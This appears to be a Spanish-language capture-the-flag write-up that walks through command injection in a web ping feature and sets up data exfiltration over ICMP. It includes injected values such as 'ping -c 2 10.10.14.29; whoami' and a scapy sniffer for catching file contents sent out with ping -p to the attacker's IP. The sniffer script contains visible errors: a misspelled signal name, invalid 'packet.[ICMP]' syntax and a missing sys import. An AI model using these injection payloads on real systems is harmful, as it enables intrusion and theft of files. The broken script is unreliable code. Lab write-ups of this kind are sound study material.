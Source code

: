 Intentamos ver si tenemos connectividad.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp
    ```

1. Lanzamos un ping

    ```bash
    ping -c 2 10.10.14.29
    ```

Vemos que recuperamos las trazas.

Intentamos otros commandos

```bash
ping -c 2 10.10.14.29;
ping -c 2 10.10.14.29; whoami
ping -c 2 10.10.14.29; id
```

Vemos que poniendo el *punto y coma* podemos ver un resultado en la web pero no vemos el resultado de id o de whoami. Pero si intentamos

```bash
id;
```

Vemos el resultado en la web. Aqui la movida seria de poder leer archivos desde una traza ICMP, mejor dicho con un ping.

### Local File Inclusion con un ping {-}

Es possible enviar datos con el comando ping con el parametro -p. Primero nos creamos un script en python que va a funccionar
como un sniffer.

```python
#!/usr/bin/python3

from scapy.all import *
import signal, time

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet.[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')

if __name__ == '__main__':
    sniff(iface='tun0', prn=data_parser)
```

